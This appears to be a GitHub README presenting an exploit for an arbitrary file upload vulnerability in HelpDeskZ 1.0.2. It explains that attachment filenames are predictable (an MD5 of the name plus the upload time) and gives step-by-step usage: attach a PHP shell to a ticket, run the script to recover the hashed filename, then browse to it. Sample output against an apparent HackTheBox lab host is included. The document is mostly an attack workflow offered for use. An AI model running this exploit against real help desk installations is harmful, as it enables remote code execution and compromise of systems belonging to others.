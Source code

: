 # helpdeskz-1.0.2-file_upload
I hereby present you a HelpDeskZ 1.0.2 arbitraty file upload exploit.
This exploits the vulnerability found in `submit_ticket_controller.php:141` file which is responsible for obfuscating the names of uploaded attachments in tickets.
```php
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```
It does it by creating an MD5 hash of the uploads filename and current system timestamp and appending the original file extension to it.
All the components required to reproduce the obfuscated filename are known to whoever's uploading the file.

## Usage
0. Set runtime settings (sensible defaults are present)
```python
# Runtime settings
interval = 120
server_tz = tz.utc
upload_dir = '/uploads/tickets'
```
To find out server timezone manually:
```bash
curl -sv <url> 2>&1 | grep Date
```

1. Create a ticket with an attachment (it accepts .php files despite displaying an error message.)
2. Run the script
```bash
# Make sure you have requests installed
pip3 install -r requirements.txt

# Execute the script with python3
python3 exploit.py <url> <file>

# Example output
htb/help » python3 exploit.py http://help.htb/support shell.php
http://help.htb/support/uploads/tickets/52444ad79044607eeb50e0e2d79186dd.php [shell.php1727896138] (2024-10-02 21:08:58)
Found: 52444ad79044607eeb50e0e2d79186dd.php
```
3. Optional: Manually nagivate to found file if required.